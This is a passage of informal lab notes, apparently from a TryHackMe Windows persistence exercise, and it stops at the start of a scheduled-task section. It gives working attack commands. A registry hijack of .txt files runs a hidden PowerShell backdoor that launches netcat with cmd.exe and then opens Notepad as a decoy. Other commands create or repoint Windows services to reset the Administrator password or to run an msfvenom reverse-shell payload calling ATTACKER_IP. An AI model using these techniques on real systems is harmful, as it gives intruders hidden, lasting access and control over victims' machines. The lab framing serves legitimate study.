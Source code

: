 So to perfom this type of attack u gotta open reg editor (registry editor) then ![[Pasted image 20230516232035.png]]
**In this case we will be attacking .txt file 

![[Pasted image 20230516232121.png]]

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe  4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Now put this as new value in registry 

```
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor2.ps1
```

![[Pasted image 20230516232424.png]]

Now open any txt file to get shellzz

# Abusing services 

Why services cuz why not ?? It will start as soon as your machines start so yeah why not ?? maybe not to stealthy but yeah it is what it is . 

We can either change the passwd or we can add our own binary 

```shell-session
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

```shell-session
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

You can also list all service with this command 

```shell-session
sc.exe query state=all
```

You can also change the binary of already existing binary 

```shell-session
sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

# Abusing schedule task 

We can use this command to create a task 
